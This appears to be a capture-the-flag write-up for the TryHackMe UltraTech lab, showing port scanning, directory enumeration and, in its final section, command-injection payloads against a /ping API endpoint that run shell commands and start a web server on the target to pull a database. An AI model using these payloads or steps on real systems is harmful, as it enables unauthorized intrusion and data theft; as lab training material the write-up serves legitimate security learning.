







### Level: _**Med**_**_ium_**


#### Introduction


You have been contracted by UltraTech to pentest their infrastructure.  
It is a **grey-box **kind of assessment, the only information you have is the **company's name** and **their server's IP address**.


#### Table of Content


1. [Level: Medium](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#level-medium)

   1. [Introduction](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#introduction)

   2. [Table of Content](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#table-of-content)

   3. [Reconnaissance](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#reconnaissance)

      1. [RUSTSCAN](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#rustscan)

      2. [What do we see here](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#what-do-we-see-here)

      3. [BURPSUITE](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#burpsuite)

      4. [WEBSERVER / LOGINPAGE](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#webserver-loginpage)

         1. [After Playing a little bit with burp suite](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#after-playing-a-little-bit-with-burp-suite)

      5. [ENUMERATE / Node.js / with DIRB](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#enumerate-node-js-with-dirb)

      6. [ENUMERATE / WEBSITE / WITH DIRB](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#enumerate-website-with-dirb)

      7. [Connect to FTp](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#connect-to-ftp)

      8. [ENUMERATE / WEBSITE / WITH NIKTO](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#enumerate-website-with-nikto)

   4. [Weaponization](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#weaponization)

      1. [Let's try some commands](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#let-s-try-some-commands)

      2. [Let's EXPLORE](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#let-s-explore)

         1. [Download the sqlite database](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#download-the-sqlite-database)

      3. [Let's open the database / WITH SQLite Database browser](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#let-s-open-the-database-with-sqlite-database-browser)

         1. [WE have FOUND A TABLE called / users](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#we-have-found-a-table-called-users)
         2. [WE have FOUND SOME HASHES](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#we-have-found-some-hashes)

   5. [Exploitation](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#exploitation)

      1. [HASHCAT](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#hashcat)

         1. [GREATE - WE CRACKED BOTH HASHES](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#greate-we-cracked-both-hashes)

   6. [Discovery / Credential Access](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#discovery-credential-access)

      1. [r00t](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#r00t)
      2. [ADMIN](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#admin)
      3. [SSH](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#ssh)

   7. [Privilege Escalation](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#privilege-escalation)

      1. [LINPEAS / Get it From HERE](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#linpeas-get-it-from-here)
      2. [WE ARE in the "docker" group](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#we-are-in-the-docker-group)
      3. [PRIVILEGE ESCALATION in a nutshell](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#privilege-escalation-in-a-nutshell)

   8. [Collection](https://salucci.ch/2023/05/28/ctf-tryhackme-ultratech/#collection)


#### Reconnaissance


[admin.tryhackme.com](https://admin.tryhackme.com)


##### RUSTSCAN


```
<strong>mkdir UltraTech
cd UltraTech
mkdir scans</strong>


<strong>sudo rustscan -a 10.10.126.234 --ulimit 5000 -- -oA scans/ -sC -sV --script vuln</strong>

<strong>.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'</strong>
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
<strong>Nmap? More like slowmap.🐢</strong>

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
<strong>Open 10.10.126.234:21
Open 10.10.126.234:22
Open 10.10.126.234:8081
Open 10.10.126.234:31331</strong>
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-28 18:25 CEST
NSE: Loaded 149 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:25
Completed NSE at 18:25, 7.75s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:25
Completed NSE at 18:25, 0.00s elapsed
Pre-scan script results:
|_broadcast-avahi-dos: ERROR: Script execution failed (use -d to debug)
Initiating Ping Scan at 18:25
Scanning 10.10.126.234 [4 ports]
Completed Ping Scan at 18:25, 0.10s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:25
Completed Parallel DNS resolution of 1 host. at 18:25, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 4, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 18:25
Scanning 10.10.126.234 [4 ports]
Discovered open port 22/tcp on 10.10.126.234
Discovered open port 21/tcp on 10.10.126.234
Discovered open port 8081/tcp on 10.10.126.234
Discovered open port 31331/tcp on 10.10.126.234
Completed SYN Stealth Scan at 18:25, 0.13s elapsed (4 total ports)
Initiating Service scan at 18:25
Scanning 4 services on 10.10.126.234
Completed Service scan at 18:25, 11.12s elapsed (4 services on 1 host)
NSE: Script scanning 10.10.126.234.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:25
NSE Timing: About 99.43% done; ETC: 18:26 (0:00:00 remaining)
NSE Timing: About 99.43% done; ETC: 18:26 (0:00:00 remaining)
NSE Timing: About 99.43% done; ETC: 18:27 (0:00:01 remaining)
NSE Timing: About 99.43% done; ETC: 18:27 (0:00:01 remaining)
Completed NSE at 18:27, 131.62s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:27
Completed NSE at 18:27, 0.32s elapsed
Nmap scan report for 10.10.126.234
Host is up, received reset ttl 63 (0.039s latency).
Scanned at 2023-05-28 18:25:31 CEST for 143s

PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| vulners:
|   cpe:/a:openbsd:openssh:7.6p1:
|       EXPLOITPACK:98FE96309F9524B8C84C508837551A19    5.8     https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19    *EXPLOIT*
|       EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    5.8     https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    *EXPLOIT*
|       EDB-ID:46516    5.8     https://vulners.com/exploitdb/EDB-ID:46516      *EXPLOIT*
|       EDB-ID:46193    5.8     https://vulners.com/exploitdb/EDB-ID:46193      *EXPLOIT*
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       1337DAY-ID-32328        5.8     https://vulners.com/zdt/1337DAY-ID-32328        *EXPLOIT*
|       1337DAY-ID-32009        5.8     https://vulners.com/zdt/1337DAY-ID-32009        *EXPLOIT*
|       SSH_ENUM        5.0     https://vulners.com/canvas/SSH_ENUM     *EXPLOIT*
|       PACKETSTORM:150621      5.0     https://vulners.com/packetstorm/PACKETSTORM:150621      *EXPLOIT*
|       EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    5.0     https://vulners.com/exploitpack/EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    *EXPLOIT*
|       EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    5.0     https://vulners.com/exploitpack/EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    *EXPLOIT*
|       EDB-ID:45939    5.0     https://vulners.com/exploitdb/EDB-ID:45939      *EXPLOIT*
|       EDB-ID:45233    5.0     https://vulners.com/exploitdb/EDB-ID:45233      *EXPLOIT*
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2018-15473  5.0     https://vulners.com/cve/CVE-2018-15473
|       1337DAY-ID-31730        5.0     https://vulners.com/zdt/1337DAY-ID-31730        *EXPLOIT*
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
|       PACKETSTORM:151227      0.0     https://vulners.com/packetstorm/PACKETSTORM:151227      *EXPLOIT*
|       MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS-        0.0     https://vulners.com/metasploit/MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS- *EXPLOIT*
|_      1337DAY-ID-30937        0.0     https://vulners.com/zdt/1337DAY-ID-30937        *EXPLOIT*
8081/tcp  open  http    syn-ack ttl 63 Node.js Express framework
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
31331/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-enum:
|   /robots.txt: Robots file
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
| http-internal-ip-disclosure:
|_  Internal IP Leaked: 10
| vulners:
|   cpe:/a:apache:http_server:2.4.29:
|       CVE-2019-9517   7.8     https://vulners.com/cve/CVE-2019-9517
|       PACKETSTORM:171631      7.5     https://vulners.com/packetstorm/PACKETSTORM:171631      *EXPLOIT*
|       EDB-ID:51193    7.5     https://vulners.com/exploitdb/EDB-ID:51193      *EXPLOIT*
|       CVE-2023-25690  7.5     https://vulners.com/cve/CVE-2023-25690
|       CVE-2022-31813  7.5     https://vulners.com/cve/CVE-2022-31813
|       CVE-2022-23943  7.5     https://vulners.com/cve/CVE-2022-23943
|       CVE-2022-22720  7.5     https://vulners.com/cve/CVE-2022-22720
|       CVE-2021-44790  7.5     https://vulners.com/cve/CVE-2021-44790
|       CVE-2021-39275  7.5     https://vulners.com/cve/CVE-2021-39275
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       CNVD-2022-73123 7.5     https://vulners.com/cnvd/CNVD-2022-73123
|       CNVD-2022-03225 7.5     https://vulners.com/cnvd/CNVD-2022-03225
|       CNVD-2021-102386        7.5     https://vulners.com/cnvd/CNVD-2021-102386
|       5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9    7.5     https://vulners.com/githubexploit/5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9  *EXPLOIT*
|       1337DAY-ID-38427        7.5     https://vulners.com/zdt/1337DAY-ID-38427        *EXPLOIT*
|       EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    7.2     https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    *EXPLOIT*
|       EDB-ID:46676    7.2     https://vulners.com/exploitdb/EDB-ID:46676      *EXPLOIT*
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       1337DAY-ID-32502        7.2     https://vulners.com/zdt/1337DAY-ID-32502        *EXPLOIT*
|       FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8  *EXPLOIT*
|       CVE-2021-40438  6.8     https://vulners.com/cve/CVE-2021-40438
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CNVD-2022-03224 6.8     https://vulners.com/cnvd/CNVD-2022-03224
|       8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2    6.8     https://vulners.com/githubexploit/8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2  *EXPLOIT*
|       4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    6.8     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332  *EXPLOIT*
|       4373C92A-2755-5538-9C91-0469C995AA9B    6.8     https://vulners.com/githubexploit/4373C92A-2755-5538-9C91-0469C995AA9B  *EXPLOIT*
|       0095E929-7573-5E4A-A7FA-F6598A35E8DE    6.8     https://vulners.com/githubexploit/0095E929-7573-5E4A-A7FA-F6598A35E8DE  *EXPLOIT*
|       CVE-2022-28615  6.4     https://vulners.com/cve/CVE-2022-28615
|       CVE-2021-44224  6.4     https://vulners.com/cve/CVE-2021-44224
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2022-22721  5.8     https://vulners.com/cve/CVE-2022-22721
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       1337DAY-ID-33577        5.8     https://vulners.com/zdt/1337DAY-ID-33577        *EXPLOIT*
|       CVE-2022-36760  5.1     https://vulners.com/cve/CVE-2022-36760
|       CVE-2022-37436  5.0     https://vulners.com/cve/CVE-2022-37436
|       CVE-2022-30556  5.0     https://vulners.com/cve/CVE-2022-30556
|       CVE-2022-29404  5.0     https://vulners.com/cve/CVE-2022-29404
|       CVE-2022-28614  5.0     https://vulners.com/cve/CVE-2022-28614
|       CVE-2022-26377  5.0     https://vulners.com/cve/CVE-2022-26377
|       CVE-2022-22719  5.0     https://vulners.com/cve/CVE-2022-22719
|       CVE-2021-34798  5.0     https://vulners.com/cve/CVE-2021-34798
|       CVE-2021-33193  5.0     https://vulners.com/cve/CVE-2021-33193
|       CVE-2021-26690  5.0     https://vulners.com/cve/CVE-2021-26690
|       CVE-2020-9490   5.0     https://vulners.com/cve/CVE-2020-9490
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-17567  5.0     https://vulners.com/cve/CVE-2019-17567
|       CVE-2019-10081  5.0     https://vulners.com/cve/CVE-2019-10081
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-17189  5.0     https://vulners.com/cve/CVE-2018-17189
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2006-20001  5.0     https://vulners.com/cve/CVE-2006-20001
|       CNVD-2022-73122 5.0     https://vulners.com/cnvd/CNVD-2022-73122
|       CNVD-2022-53584 5.0     https://vulners.com/cnvd/CNVD-2022-53584
|       CNVD-2022-53582 5.0     https://vulners.com/cnvd/CNVD-2022-53582
|       CNVD-2022-03223 5.0     https://vulners.com/cnvd/CNVD-2022-03223
|       CVE-2020-11993  4.3     https://vulners.com/cve/CVE-2020-11993
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|       4013EC74-B3C1-5D95-938A-54197A58586D    4.3     https://vulners.com/githubexploit/4013EC74-B3C1-5D95-938A-54197A58586D  *EXPLOIT*
|       1337DAY-ID-35422        4.3     https://vulners.com/zdt/1337DAY-ID-35422        *EXPLOIT*
|       1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575        *EXPLOIT*
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|_      PACKETSTORM:152441      0.0     https://vulners.com/packetstorm/PACKETSTORM:152441      *EXPLOIT*
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:27
Completed NSE at 18:27, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:27
Completed NSE at 18:27, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.40 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (216B)
```


##### What do we see here


- 
- Open 10.10.126.234:**21**
- 
-
- 
- Open 10.10.126.234:**22**
- 
-
- 
- Open 10.10.126.234:**8081**
- 
-
- 
- Open 10.10.126.234:**31331**
- 


|          |                                                                   |
| -------- | ----------------------------------------------------------------- |
| **Port** | **APPLICATION**                                                   |
| 21       | FTP (vsftpd 3.0.3)                                                |
| 22       | SSH (OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 8081     | Node.js Express framework                                         |
| 31331    | Webserver (Apache httpd 2.4.29)                                   |

Open Ports on victim machine


##### BURPSUITE


```
<strong>Connect http://10.10.126.234:8081/</strong>
```





Looks like a REST API.


```
<strong>Connect http://10.10.126.234:31331/</strong>
```





Looks like the website of the company.


Let's interact a little bit with the company site, to see what we have.


```
<strong>Connect http://10.10.126.234:31331/robots.txt</strong>

Allow: *
User-Agent: *
Sitemap: <strong>/utech_sitemap.txt</strong>

<strong>Connect http://10.10.126.234:31331/utech_sitemap.txt</strong>

/
<strong>/index.html
/what.html
/partners.html</strong>
<strong>
Connect http://10.10.126.234:31331/partners.html</strong>

<strong>< We found a Login page ! ></strong>
```


##### WEBSERVER / LOGINPAGE


```
< Lets play around with some basic logins >

<strong>admin:admin</strong>
== Invalid credentials

http://10.10.126.234:<strong>8081/auth</strong>?login=admin&password=admin

< Login credentials is transmitted with a <strong>GET REQUEST</strong> not POST >

< We see the <em>"Invalid credentials"</em> message comes from <strong>Port 8081</strong> the <strong>node.js endpoint</strong> >

< <strong>8081/auth</strong> >

< So we can tell that <strong>/auth</strong> is <strong>a route from node.js</strong> >

< If we look closer to the <strong>BurpSuite HTTP history</strong>, we see <strong>pings</strong> >
```





###### After Playing a little bit with burp suite


Let's check out the Site map under Target.

We found a e-mail address!





##### ENUMERATE / Node.js / with DIRB


```
<strong>dirb http://10.10.126.234:8081/</strong>

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun May 28 19:04:20 2023
URL_BASE: http://10.10.126.234:8081/
WORDLIST_FILES: <strong>/usr/share/dirb/wordlists/common.txt</strong>

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.126.234:8081/ ----
+ http://10.10.126.234<strong>:8081/auth</strong> (CODE:200|SIZE:39)
+ http://10.10.126.234<strong>:8081/ping </strong>(CODE:500|SIZE:1094)

-----------------
END_TIME: Sun May 28 19:07:22 2023
DOWNLOADED: 4612 - FOUND: 2
```


##### ENUMERATE / WEBSITE / WITH DIRB


```
<strong>dirb http://10.10.126.234:31331/</strong>

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun May 28 19:06:34 2023
URL_BASE: http://10.10.126.234:31331/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.126.234:31331/ ----
==> DIRECTORY: http://10.10.126.234:31331<strong>/css/</strong>
+ http://10.10.126.234:31331/favicon.ico (CODE:200|SIZE:15086)
==> DIRECTORY: http://10.10.126.234:31331<strong>/images/ </strong>
+ http://10.10.126.234:31331/index.html (CODE:200|SIZE:6092)
==> DIRECTORY: http://10.10.126.234:31331<strong>/javascript/</strong>
==> DIRECTORY: http://10.10.126.234:31331<strong>/js/</strong>
+ http://10.10.126.234:31331<strong>/robots.txt</strong> (CODE:200|SIZE:53)
+ http://10.10.126.234:31331<strong>/server-status</strong> (CODE:403|SIZE:304)

---- Entering directory: http://10.10.126.234:31331/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.126.234:31331/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.126.234:31331/javascript/ ----
==> DIRECTORY: http://10.10.126.234:31331<strong>/javascript/jquery/</strong>

---- Entering directory: http://10.10.126.234:31331/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.126.234:31331/javascript/jquery/ ----
+ http://10.10.126.234:31331<strong>/javascript/jquery/jquery</strong> (CODE:200|SIZE:268026)

-----------------
END_TIME: Sun May 28 19:15:41 2023
DOWNLOADED: 13836 - FOUND: 5
```


##### Connect to FTp


```
<strong>ftp 10.10.126.234</strong>
<strong>< Enter >
< Enter ></strong>

Connected to 10.10.126.234.220 (vsFTPd 3.0.3)Name (10.10.126.234:anyguy): 331 Please specify the password.Password: 530 Login incorrect.ftp: Login failed
```


No anonymous login allowed.


##### ENUMERATE / WEBSITE / WITH NIKTO


```
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.126.234
+ Target Hostname:    10.10.126.234
+ Target Port:        31331
+ Start Time:         2023-05-28 19:28:17 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /robots.txt: contains 1 entry which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 17cc, size: 584b2b811ebb3, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD .
+ /css/: Directory indexing found.
+ /css/: This might be interesting.
+ /images/: Directory indexing found.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8075 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2023-05-28 19:33:56 (GMT2) (339 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


|                                                                                                                                                                                                                                         |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **What do we know so far?**                                                                                                                                                                                                             |
| PORT: \_ 21 / FTP vsftpd 3.0.3 \_ 22 SSH \_ 8081 Node.js \_ 31331 Webserver Apache httpd 2.4.29 NODE.JS - 2 routes on port 8081 \_ /auth \_ /ping WEBSITE - Login Page \_ /partners.html \_ /robots.txt E-Mail \_ ultratech@yopmail.com |

What do we know so far?


---


#### Weaponization


Let's search for exploits, now that we know which services are available.


```
We know that the <strong>ping</strong> command is executed. Could be possible, that we can execute some other commands to.
```


##### Let's try some commands


1. 
2. Go to **BurpSuite**
3. 
4.
5. 
6. Send ping to **Repeater**
7. 
8.
9. 
10. Let's try some commands
11. 


```
GET <strong>/ping?ip=10.10.126.234;ls</strong> HTTP/1.1
== ping: 10.10.126.234ls: Name or service not known

GET <strong>/ping?ip=10.10.126.234|ls</strong> HTTP/1.1
== ping: 10.10.126.234ls: Name or service not known

GET <strong>/ping?ip=10.10.126.234|`ls`</strong> HTTP/1.1
== ping: <strong>utech.db.sqlite</strong>: Name or service not known
--- It's working ---

GET <strong>/ping?ip=10.10.126.234|`pwd`</strong> HTTP/1.1
== ping: 10.10.126.234<strong>/home/www/api</strong>: Name or service not known

GET <strong>/ping?ip=10.10.126.234|`which+python`</strong> HTTP/1.1
== ping: 10.10.126.234<strong>/usr/bin/python</strong>: Name or service not known
--- Python is installed ---

< Let's create a simple HTTP server >

GET <strong>/ping?ip=10.10.126.234|`python+-m+SimpleHTTPServer`</strong> HTTP/1.1
== since now we aren't getting a response, this means we are hosting a <strong>SimpleHTTPServer</strong> on <strong>Port 8000</strong>

< Greate >
```


